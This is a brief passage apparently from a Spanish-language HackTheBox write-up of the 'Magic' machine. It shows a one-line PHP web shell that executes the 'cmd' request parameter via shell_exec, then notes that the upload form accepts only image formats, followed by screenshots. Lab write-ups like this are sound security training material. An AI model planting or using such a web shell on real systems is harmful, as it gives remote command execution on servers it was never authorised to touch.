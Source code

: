 
```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Procedemos a subir el archivo pero vemos que solo admite formatos de imagen.

![](/assets/images/HTB/htb-writeup-Magic/magic5.PNG)


![](/assets/images/HTB/htb-writeup-Magic/magic7.PNG)
